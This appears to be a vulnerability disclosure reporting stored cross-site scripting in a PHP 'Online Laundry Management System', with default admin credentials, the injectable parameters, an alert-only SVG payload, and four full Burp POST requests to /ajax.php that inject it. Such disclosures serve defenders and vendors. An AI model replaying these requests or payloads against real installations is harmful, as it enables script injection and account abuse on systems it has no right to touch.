



## Online Laundry Management System

## XSS on `/ajax.php`

### Vendor Homepage:

```
https://www.campcodes.com/downloads/online-laundry-management-system-source-code/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/login.php
admin
admin123
```

### Affected Page:

```
/ajax.php
```

The parameter `name/customer_name/username` is being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

### Proof of Concept:

**Payload:**

```
<svg/onload=alert``>
```

**Burp Request:**

```
POST /ajax.php?action=save_category HTTP/1.1
Host: 192.168.150.131
Content-Length: 338
Accept: */*
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryMLDvc4YcwfoiLyAu
Origin: http://192.168.150.131
Referer: http://192.168.150.131/index.php?page=categories
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=n44uhtjl91qpq3qufkq5go5lvb
Connection: close

------WebKitFormBoundaryMLDvc4YcwfoiLyAu
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryMLDvc4YcwfoiLyAu
Content-Disposition: form-data; name="name"

<svg/onload=alert``>
------WebKitFormBoundaryMLDvc4YcwfoiLyAu
Content-Disposition: form-data; name="price"

30
------WebKitFormBoundaryMLDvc4YcwfoiLyAu--

```



```
POST /ajax.php?action=save_laundry HTTP/1.1
Host: 192.168.150.131
Content-Length: 1229
Accept: */*
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGdW9FdTIRkbJnFyB
Origin: http://192.168.150.131
Referer: http://192.168.150.131/index.php?page=laundry
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=n44uhtjl91qpq3qufkq5go5lvb
Connection: close

------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="customer_name"

<svg/onload=alert``>
------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="remarks"

2
------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="item_id[]"


------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="laundry_category_id[]"

1
------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="weight[]"

1
------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="unit_price[]"

30
------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="amount[]"

90
------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="pay"

1
------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="tendered"

4
------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="tamount"

90
------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="change"

-86.00
------WebKitFormBoundaryGdW9FdTIRkbJnFyB--

```



```
POST /ajax.php?action=save_supply HTTP/1.1
Host: 192.168.150.131
Content-Length: 244
Accept: */*
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymmTUxrAvdnynB6Ii
Origin: http://192.168.150.131
Referer: http://192.168.150.131/index.php?page=supply
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=n44uhtjl91qpq3qufkq5go5lvb
Connection: close

------WebKitFormBoundarymmTUxrAvdnynB6Ii
Content-Disposition: form-data; name="id"


------WebKitFormBoundarymmTUxrAvdnynB6Ii
Content-Disposition: form-data; name="name"

<svg/onload=alert``>
------WebKitFormBoundarymmTUxrAvdnynB6Ii--

```



```
POST /ajax.php?action=save_user HTTP/1.1
Host: 192.168.150.131
Content-Length: 87
Accept: */*
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.150.131
Referer: http://192.168.150.131/index.php?page=users
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=n44uhtjl91qpq3qufkq5go5lvb
Connection: close

id=1&name=<svg/onload=alert`1`>&username=<svg/onload=alert`2`>&password=admin123&type=1
```


